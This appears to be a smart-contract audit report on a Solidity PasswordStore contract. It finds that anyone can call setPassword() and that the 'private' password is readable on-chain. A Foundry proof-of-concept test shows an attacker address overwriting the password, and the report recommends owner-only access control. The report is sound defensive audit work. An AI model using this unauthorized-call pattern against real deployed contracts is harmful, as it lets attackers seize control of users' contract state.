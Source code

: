 # PasswordStore_Audit_Report

## Summary

Anyone can call the ` setPassword() ` function to modify the ` s_password ` storage variable,but the contract is intended to allow only the owner to change the password;

And the private storage variable ` s_password ` is not truly private and can be viewed using tools;



## Vulnerability Details

The vulnerability is located in the ` setPassword() ` function on line 26 of the ` PasswordStore.sol ` file,which can be called by anyone to modify the password;

```solidity
/*
 * @notice This function allows only the owner to set a new password.
 * @param newPassword The new password to set.
 */
function setPassword(string memory newPassword) external {@audit - everyone can call this function,and then change the password
    s_password = newPassword;
    emit SetNetPassword();
}
```



## Proof of Concept

### Test Case

```solidity
contract PasswordStoreTest is Test {
    PasswordStore public passwordStore;
    DeployPasswordStore public deployer;
    address public owner;
    // attacker address
    address public attacker;

    function setUp() public {
        deployer = new DeployPasswordStore();
        passwordStore = deployer.run();
        owner = msg.sender;
        // create an attacker address
        attacker = makeAddr("attacker");
    }

    function test_poc_attacker_set_password() public {
        // set up the attacker to call the function
        vm.prank(attacker);
        string memory newPassword = "attackerPassword";
        // attacker call the function
        passwordStore.setPassword(newPassword);
        console.log("The attacker successfully set the password:", newPassword);
    }
}
```

### Run The Test

```bash
forge test --mt test_poc_attacker_set_password -vvvv
```

### Output

```bash
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_poc_attacker_set_password() (gas: 22263)
Logs:
  The attacker successfully set the password: attackerPassword

Traces:
  [22263] PasswordStoreTest::test_poc_attacker_set_password()
    ├─ [0] VM::prank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← [Return] 
    ├─ [7319] PasswordStore::setPassword("attackerPassword")
    │   ├─ emit SetNetPassword()
    │   └─ ← [Stop] 
    ├─ [0] console::log("The attacker successfully set the password:", "attackerPassword") [staticcall]
    │   └─ ← [Stop] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.97ms (1.09ms CPU time)

Ran 1 test suite in 1.10s (6.97ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```



## Impact

Anyone can call the ` setPassword() ` function to modify the ` s_password ` storage variable.



## Recommendation

1. Use the OpenZeppelin's ` Ownable ` library to improve it;

```solidity
+ import "@openzeppelin/contracts/ownership/Ownable.sol";

+ contract PasswordStore is Ownable{
    ...
    ...
    
+   function setPassword(string memory newPassword) external onlyOwner {
        s_password = newPassword;
        emit SetNetPassword();
    }
}
```

2. Add logic to check if ` msg.sender ` is the ` s_owner `;

```solidity
function setPassword(string memory newPassword) external {
    require(msg.sender == s_owner, "Not the owner!");
    s_password = newPassword;
    emit SetNetPassword();
}
```

